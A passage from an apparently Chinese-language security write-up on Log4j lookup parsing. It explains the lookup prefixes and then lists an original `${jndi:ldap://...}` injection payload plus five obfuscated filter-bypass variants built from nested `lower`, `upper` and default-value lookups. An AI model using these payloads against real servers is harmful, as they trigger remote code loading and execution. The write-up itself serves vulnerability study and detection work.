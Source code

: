 ## <font style="color:rgb(51, 51, 51);">常规绕过</font>
其他解析器



<font style="color:rgb(51, 51, 51);">上面分析我们也注意到了，有多个解析协议可用，包括</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j</font>`<font style="color:rgb(51, 51, 51);">，我们来分析一下作用</font>

| **<font style="color:rgb(51, 51, 51);">解析协议</font>** | **<font style="color:rgb(51, 51, 51);">说明</font>** |
| :--- | --- |
| `<font style="background-color:rgb(247, 247, 247);">date:</font>` | <font style="color:rgb(51, 51, 51);">日期时间（详情</font>`<font style="background-color:rgb(247, 247, 247);">org.apache.logging.log4j.core.lookup.DateLookup#lookup</font>`<br/><font style="color:rgb(51, 51, 51);">）</font> |
| `<font style="background-color:rgb(247, 247, 247);">java:</font>` | <font style="color:rgb(51, 51, 51);">一些JVM的信息（可用参数</font>`<font style="background-color:rgb(247, 247, 247);">version、runtime、vm、os、hw、locale</font>`<br/><font style="color:rgb(51, 51, 51);">，详情</font>`<font style="background-color:rgb(247, 247, 247);">org.apache.logging.log4j.core.lookup.JavaLookup#lookup</font>`<br/><font style="color:rgb(51, 51, 51);">）</font> |
| `<font style="background-color:rgb(247, 247, 247);">marker:</font>` | <font style="color:rgb(51, 51, 51);">返回</font>`<font style="background-color:rgb(247, 247, 247);">event.getMarker()</font>`<br/><font style="color:rgb(51, 51, 51);">，不知道具体干啥的</font> |
| `<font style="background-color:rgb(247, 247, 247);">ctx:key</font>` | <font style="color:rgb(51, 51, 51);">返回</font>`<font style="background-color:rgb(247, 247, 247);">event.getContextData().getValue(key)</font>`<br/><font style="color:rgb(51, 51, 51);">，就是获取上下文的数据</font> |
| `**<font style="background-color:rgb(247, 247, 247);">lower:KEY</font>**` | <font style="color:rgb(51, 51, 51);">返回字符串小写值</font> |
| `**<font style="background-color:rgb(247, 247, 247);">upper:key</font>**` | <font style="color:rgb(51, 51, 51);">返回字符串大写值</font> |
| `<font style="background-color:rgb(247, 247, 247);">jndi:</font>` | <font style="color:rgb(51, 51, 51);">JNDI注入利用点，不多说了</font> |
| `<font style="background-color:rgb(247, 247, 247);">main:key</font>` | <font style="color:rgb(51, 51, 51);">返回</font>`<font style="background-color:rgb(247, 247, 247);">((MapMessage) event.getMessage()).get(key)</font>`<br/><font style="color:rgb(51, 51, 51);">，也是获取一些变量值</font> |
| `<font style="background-color:rgb(247, 247, 247);">jvmrunargs:</font>` | <font style="color:rgb(51, 51, 51);">没搞懂。。。</font> |
| `<font style="background-color:rgb(247, 247, 247);">sys:key</font>` | <font style="color:rgb(51, 51, 51);">返回一些系统属性：</font>`<font style="background-color:rgb(247, 247, 247);">System.getProperty(key)</font>` |
| `<font style="background-color:rgb(247, 247, 247);">env:key</font>` | <font style="color:rgb(51, 51, 51);">返回</font>`<font style="background-color:rgb(247, 247, 247);">System.getenv(key)</font>` |
| `<font style="background-color:rgb(247, 247, 247);">log4j:key</font>` | <font style="color:rgb(51, 51, 51);">返回一些</font>`<font style="background-color:rgb(247, 247, 247);">log4j</font>`<br/><font style="color:rgb(51, 51, 51);">的配置信息，可用值</font>`<font style="background-color:rgb(247, 247, 247);">configLocation、configParentLocation</font>` |


### <font style="color:rgb(51, 51, 51);">绕过思路</font>
<font style="color:rgb(51, 51, 51);">我们已经知道了</font>`<font style="background-color:rgb(247, 247, 247);">${}</font>`<font style="color:rgb(51, 51, 51);">的执行流程，也知道了分隔符怎么处理的，又知道了其他协议的解析返回值，那么就可以构造payload来绕过了，举一些例子</font>

+ <font style="color:rgb(51, 51, 51);">原始payload</font>

```plain
${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
```

+ <font style="color:rgb(51, 51, 51);">一些绕过paylioad</font>

```plain
${${a:-j}ndi:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${a:-j}n${::-d}i:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:jn}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
```
